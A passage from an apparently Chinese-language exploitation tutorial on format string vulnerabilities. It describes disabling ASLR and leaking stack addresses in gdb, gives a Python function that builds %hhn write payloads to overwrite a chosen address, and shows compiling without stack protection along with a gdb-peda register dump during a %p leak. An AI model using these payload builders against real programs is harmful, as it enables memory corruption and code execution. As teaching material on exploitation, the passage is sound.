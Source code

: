 - 首先是需要关闭整个系统的 ASLR 保护，这可以保证栈在 gdb 环境中和直接运行中都保持不变，但这两个栈地址不一定相同
- 其次因为在 gdb 调试环境中的栈地址和直接运行程序是不一样的，所以我们需要结合格式化字符串漏洞读取内存，先泄露一个地址出来，然后根据泄露出来的地址计算实际地址

也可以使用脚本：

```
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

其中每个参数的含义基本如下:

- offset 表示要覆盖的地址最初的偏移
- size 表示机器字长
- addr 表示将要覆盖的地址。
- target 表示我们要覆盖为的目的变量值。

### X86-64格式化字符串

编译：

```
gcc -fno-stack-protector -no-pie -g -o formatSee formatSee.c
```

printf执行之前：

```
gdb-peda$ r
Starting program: /home/dililearngent/Desktop/format/formatSee 
AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.

[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0xffffffff 
RDX: 0x88888888 
RSI: 0x1 
RDI: 0x7fffffffdc40 ("AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.")
RBP: 0x7fffffffdcd0 --> 0x400660 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffdc28 --> 0x40064a (<main+116>:	mov    edi,0xa)
RIP: 0x7ffff7a62810 (<__printf>:	sub    rsp,0xd8)
R8 : 0x7fffffffdc30 --> 0x44434241 ('ABCD')
R9 : 0x7ffff7fdc700 (0x00007ffff7fdc700)
```